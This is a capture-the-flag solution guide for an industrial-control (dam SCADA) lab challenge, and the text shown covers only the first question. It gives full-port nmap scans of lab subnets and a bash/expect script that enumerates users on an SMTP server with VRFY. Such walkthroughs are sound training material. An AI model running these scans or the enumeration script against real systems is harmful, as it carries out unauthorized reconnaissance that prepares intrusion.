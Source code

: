 # Aqua Block Crisis Detected

*Solution Guide*

## Overview

*Aqua Block Crisis Detected* requires the competitor to enumerate usernames on a network, discover weak credentials, explore emails, search the filesystem, and finally discover and make sense of the malware.

>**Reminder!** Reading this solution guide *before* attempting the challenge will lead to the false notion that this challenge is easy to solve.

## Question 1

*What is the password that was disclosed?*

1. On the Kali machine, browse to`http://10.1.1.15/scada` and verify you can see the HMI of the three dams.
2. On the Kali machine, run the following commands in four different tabs to enumerate the networks.

    ```bash
    sudo nmap 10.1.1.0/24 -oN 1-basic.scan
    sudo nmap -p- -sV 10.1.1.0/24 -oN 1-all-tcp.scan
    sudo nmap 10.2.2.0/24 -oN 2-basic.scan
    sudo nmap -p- -sV 10.2.2.0/24 -oN 2-all-tcp.scan
    ```

    The two `basic.scan` files complete quickly. You should discover `10.1.1.21` has an SMTP port open. 

3. Enumerate users on this SMTP port. Create a list of common first names as `usernames.txt` and create the following `looper.sh` script to loop through your usernames against the SMTP server.

    ```bash
    #!/bin/bash

    TARGET="10.1.1.21"

    while read -r username; do
        expect -c "
            set timeout 1
            spawn telnet $TARGET 25
            expect \"220\"
            send \"VRFY $username\r\"
            expect {
                \"2** 2.0.0\" {
                    puts \"$username might be VALID!\"
                }
                timeout {
                    puts \"$username does not appear to exist\"
                }
            }
            send \"QUIT\r\"
            expect eof
        "
    done < usernames.txt
    ```
